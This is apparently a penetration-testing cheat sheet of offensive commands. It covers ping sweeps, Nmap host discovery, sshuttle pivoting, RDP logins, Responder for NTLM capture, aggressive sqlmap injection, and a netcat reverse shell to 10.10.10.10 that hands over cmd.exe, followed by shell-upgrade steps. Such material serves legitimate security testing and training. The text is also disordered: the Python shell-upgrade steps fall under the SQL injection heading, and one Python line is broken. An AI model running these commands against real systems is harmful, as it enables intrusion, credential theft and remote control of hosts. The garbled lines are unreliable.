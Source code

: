 # Windows (cmd)
- for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.

# Windows (PowerShell)
- $ping = New-Object System.Net.Networkinformation.Ping ; 1..254 | % { $ping.send("10.9.15.$_", 1) | where status -ne 'TimedOut' | select Address | fl * }

# Nmap
- nmap -sP 192.168.0.1-254

Pivoting
----------------
- sshuttle -r user@10.10.10.10 10.1.1.0/24

Remote Desktop
----------------
- rdesktop -u user -p password 10.10.10.10 -g 85% -r disk:share=/root/
- xfreerdp /d:xyz.local /u:username /p:password /v:10.10.10.10 /cert-ignore

Responder
----------------
- responder -I tun0 -wrF
- https://chryzsh.gitbooks.io/darthsidious/content/execution/responder-with-ntlm-relay-and-empire.html
- https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

Reverse Shells
----------------
Linux
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://awansec.com/reverse-shell.html

Windows
- https://github.com/Dhayalanb/windows-php-reverse-shell
- nc 10.10.10.10 4444 –e cmd.exe

Shell Upgrading
----------------

Source: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ & https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell

SQL Injection (SQLmap)
----------------
- sqlmap -u "http://example.com/test.php?test=test" --level=5 --risk=3 --batch

#### Python
1. python -c 'import pty;spawn("/bin/bash");'
or
1. python3 -c 'import pty;spawn("/bin/bash");'
2. In reverse shell:
```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

- In Kali

3. stty raw -echo
4. fg

- In reverse shell
```